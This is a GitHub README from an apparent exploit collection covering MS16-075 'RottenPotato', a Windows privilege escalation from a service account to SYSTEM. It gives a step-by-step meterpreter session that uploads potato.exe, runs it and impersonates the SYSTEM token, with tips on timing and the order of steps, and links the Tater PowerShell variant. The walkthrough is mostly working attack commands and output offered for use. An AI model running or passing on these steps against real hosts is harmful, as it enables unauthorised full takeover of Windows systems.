


# MS16-075 

- The potato.exe was from [@FoxGlove](https://github.com/foxglovesec/RottenPotato)
- For a technical overview of this [exploit]( https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)

Vulnerability reference:
 * [MS16-075](https://technet.microsoft.com/library/security/MS16-075)
 

## RottenPotato

Local Privilege Escalation from Windows Service Accounts to SYSTEM

## Videos for example
- [SQL Server](https://www.youtube.com/watch?v=3CPdKMeB0UY) 
- [IIS](https://www.youtube.com/watch?v=wK0r-TZR7w8)

## Usage of msf
```
msf exploit(web_delivery) > set ExitOnsession false
msf exploit(web_delivery) > run
meterpreter > getuid
Server username: IIS APPPOOL\DefaultAppPool
meterpreter > getprivs
===========================================================
Enabled Process Privileges
===========================================================
 SeAssignPrimaryTokenPrivilege

meterpreter > upload  /root/potato.exe C:\Users\Public
meterpreter > cd C:\\Users\\Public
meterpreter > use incognito
meterpreter > list_tokens -u
NT AUTHORITY\IUSR

meterpreter > execute -cH -f ./potato.exe
meterpreter > list_tokens -u
NT AUTHORITY\IUSR
NT AUTHORITY\SYSTEM

meterpreter > impersonate_token "NT AUTHORITY\\SYSTEM"

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### Get a shell has Privileges:SeAssignPrimaryTokenPrivilege



### Get system Privilege


***
- It is important to impersonate the token (or run list_tokens -u) quickly after runnning the binary.
- It is also important to follow the order of the steps. 
- Make sure you "use incognito" before running the binary.

***

## Tater

a PowerShell implementation of the Hot Potato Windows Privilege Escalation exploit

- The Tater was from [@Kevin-Robertson](https://github.com/Kevin-Robertson/Tater)
  
